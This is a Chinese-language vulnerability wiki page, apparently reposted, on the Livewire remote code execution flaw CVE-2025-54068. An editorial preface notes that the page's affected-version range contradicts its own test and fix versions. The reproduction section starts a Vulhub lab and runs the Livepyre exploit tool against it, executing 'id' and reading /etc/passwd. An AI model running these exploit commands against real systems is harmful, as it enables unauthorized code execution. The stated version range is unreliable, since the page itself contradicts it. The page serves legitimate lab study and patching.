



## 核对与使用边界

- 来源差异需保留：Livewire 仓库内同号 GHSA 顶部仍写 &lt;3.6.3，但 Impact 写 ≤3.6.3、Patches 写 3.6.4；GitHub Advisory Database 当前范围已是 &lt;3.6.4。本节采用与 Impact、Patches 和数据库一致的含 3.6.3 范围，同时保留上游表头冲突，不能假称两页完全一致。

核对来源：[Livewire 仓库内 GHSA（表头仍矛盾）](https://github.com/livewire/livewire/security/advisories/GHSA-29cq-5w36-x7w3)

- 明确更正：受影响范围包含本文实验使用的 3.6.3，不能写成 &lt;3.6.3。GitHub 当前公告给 3.0.0-beta.1 ≤ v &lt; 3.6.4，首修复 3.6.4。
- 边界：组件必须以特定方式挂载和配置，并进入可利用的属性 hydrate 路径；仅存在对象属性不足以推导任意应用均可 RCE。已知 APP_KEY 的其他链不能混作本条的必需条件或无条件证明。

核对来源：[Livewire GHSA](https://github.com/advisories/GHSA-29cq-5w36-x7w3)

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：正文修复3.6.4、实验3.6.3，但影响范围写&lt;3.6.3，自相矛盾

代码与实验材料：Vulhub环境及Livepyre外部工具命令，需补实际组件对象、快照与鉴权条件

来源证据范围：GHSA-29cq-5w36-x7w3、Synacktiv及Vulhub是直接可追溯来源，未抓取

- **事实待核（1）**：版本上界排除了本文实验版本；依据：3.0.0-beta.1 &lt;= livewire &lt; 3.6.3与实验3.6.3及修复3.6.4不一致。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（2）**：对象属性存在被过度概括为直接RCE；依据：工具需发现快照/属性并满足hydrate路径；APP_KEY已知与未知情形也需分别写清。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Livewire 组件属性 hydrate 远程代码执行漏洞 CVE-2025-54068

## 漏洞描述

Livewire 是一个用于 Laravel 的全栈框架，可以在不离开 Laravel 的情况下轻松构建动态 Web 界面。

在 3.6.4 版本之前的 Livewire 存在一个严重的远程代码执行漏洞（CVE-2025-54068）。该漏洞是由于组件属性更新水合（hydration）过程中对代码生成的控制不当导致的。当 Livewire 组件处理来自快照（snapshot）的用户输入时，框架未能正确过滤对象类型，导致攻击者可以注入恶意载荷并在服务器上执行。如果攻击者知道 Laravel 应用的 `APP_KEY`，则利用过程会更加简单。

参考链接：

- https://github.com/advisories/GHSA-29cq-5w36-x7w3
- https://github.com/synacktiv/Livepyre

## 漏洞影响

```
3.0.0-beta.1 <= livewire < 3.6.3
```

## 环境搭建

Vulhub 执行如下命令启动 Livewire 3.6.3 漏洞环境：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:8080/` 可以看到一个示例的 Todo List 应用。




## 漏洞复现

可以使用 `@_remsio_` 和 `@_Worty` 开发的 [Livepyre](https://github.com/synacktiv/Livepyre) 漏洞利用工具来复现该漏洞。首先克隆仓库并安装依赖：

```shell
git clone https://github.com/synacktiv/Livepyre.git
cd Livepyre
pip install -r requirements.txt
```

然后对目标运行漏洞利用程序。该工具会自动检测 Livewire 版本、查找可用的快照，并尝试在不需要 `APP_KEY` 的情况下利用该漏洞：

```shell
python Livepyre.py -u http://your-ip:8080/ -f system -p "id"
```




工具会检查快照中是否存在对象类型的参数。如果存在，则直接触发 RCE；否则会尝试暴力破解参数。你也可以执行其他命令，比如读取 `/etc/passwd` 文件：

```shell
python Livepyre.py -u http://your-ip:8080/ -f system -p "cat /etc/passwd"
```




## 漏洞 POC

- https://github.com/synacktiv/Livepyre

## 漏洞修复

- 升级至 Livewire v3.6.4 或最新版本。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
